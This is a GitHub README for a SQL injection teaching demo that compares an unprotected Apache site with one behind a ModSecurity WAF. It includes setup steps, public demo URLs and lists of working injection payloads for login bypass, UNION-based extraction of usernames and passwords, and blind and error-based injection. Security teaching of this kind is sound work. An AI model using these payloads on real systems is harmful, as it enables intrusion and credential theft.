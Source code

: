 # SQL Injection Demo with ModSecurity WAF

## 🌐 Live Deployment URLs
- **Vulnerable (Exploitable)**: `http://3.108.221.71/vulnerable/page1.html`
- **Protected (Non-exploitable)**: `http://3.108.221.71/protected/page2.html`

## 🏗️ Architecture

Internet (Port 80) → Nginx Reverse Proxy → {
/vulnerable/* → Apache:8080 (No WAF Protection)
/protected/*  → Apache:8081 (ModSecurity WAF Enabled)
}

## 🚀 Quick Setup

### Prerequisites
- Ubuntu 22.04 LTS (EC2 Instance)
- Security Groups: Port 22 (SSH), Port 80 (HTTP)

### Installation
```bash
# 1. Clone repository
git clone https://github.com/YOUR_USERNAME/sqli-waf-demo.git
cd sqli-waf-demo

# 2. Run installation script
chmod +x install.sh
sudo ./install.sh

# 3. Access applications
# Vulnerable: http://your-server-ip/vulnerable/page1.html
# Protected: http://your-server-ip/protected/page2.html


🧪 Testing SQL Injection
Test on Vulnerable Form (Should Work ✅)
sqladmin' OR '1'='1
' UNION SELECT 1,username,password FROM users--
admin'--
'or'x'='x
admin' UNION SELECT 1,@@version,3--
Test on Protected Form (Should Be Blocked ❌)
Same payloads → Expected Result: 403 Forbidden Error
Additional Test Payloads
sql# Authentication Bypass
admin' OR 1=1--
'OR''='
admin' OR 2>1--

# Data Extraction  
' UNION SELECT 1,2,3--
' UNION SELECT 1,user(),database()--
admin' UNION SELECT 1,group_concat(username),group_concat(password) FROM users--

# Time-based Blind Injection
admin' AND (SELECT SLEEP(5))--
admin' AND IF(1=1,SLEEP(3),0)--

# Error-based Injection
admin' AND extractvalue(1,concat(0x7e,(SELECT version()),0x7e))--